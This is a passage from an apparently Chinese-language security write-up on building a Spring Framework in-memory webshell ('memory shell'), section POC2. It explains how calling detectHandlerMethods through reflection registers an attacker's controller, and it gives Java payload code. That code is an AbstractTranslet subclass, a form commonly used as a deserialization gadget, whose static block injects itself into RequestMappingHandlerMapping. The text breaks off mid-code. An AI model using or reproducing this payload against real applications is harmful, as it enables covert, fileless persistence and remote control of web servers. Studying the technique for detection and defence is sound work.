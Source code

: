 ![SpringMemShell](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/SpringMemShell.gif)



#### POC2

根据栈图，调用detectHandlerMethods，调registerHandlerMethod不想写了（懒B）

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250310163319890.png)

register是手动加入方法与映射路径

观察detectHandlerMethods方法

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250311210843103.png)

只传入对象handler，getUserClass获取该bean，然后取得其被@RequestMapping装配的方法，再调用registerHandlerMethod去装配。

等于说只传入一个对象，detectHandlerMethod是**自动**去装配方法与映射路径

所以该方法和POC1最大的不同是必须在调用方法上加上@RequestMapping注解。

理论上来说从RequestMappingHandlerMapping反射就能调用detectHandlerMethods

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250311211700968.png)

```java
package cn.org.javaweb.springmemshell.Controller;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.servlet.handler.AbstractHandlerMethodMapping;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

import java.lang.reflect.Method;

public class ControllerMemShell extends AbstractTranslet {
    static {
        try {
            WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
            if (context != null) {
                RequestMappingHandlerMapping requestMappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
//                PatternsRequestCondition patternsRequestCondition = new PatternsRequestCondition("/MemShellController");//映射路径
//                RequestMappingInfo mappingInfo = new RequestMappingInfo(null,patternsRequestCondition,null,null,null,null,null,null);
//                Method method = ControllerMemShell.class.getMethod("Shell", HttpServletRequest.class,HttpServletResponse.class,String.class);
//                requestMappingHandlerMapping.registerMapping(mappingInfo,new ControllerMemShell(),method);
                Method detectHandlerMethods = AbstractHandlerMethodMapping.class.getDeclaredMethod("detectHandlerMethods", Object.class);
                detectHandlerMethods.setAccessible(true);
                detectHandlerMethods.invoke(requestMappingHandlerMapping,new ControllerMemShell());
            }
```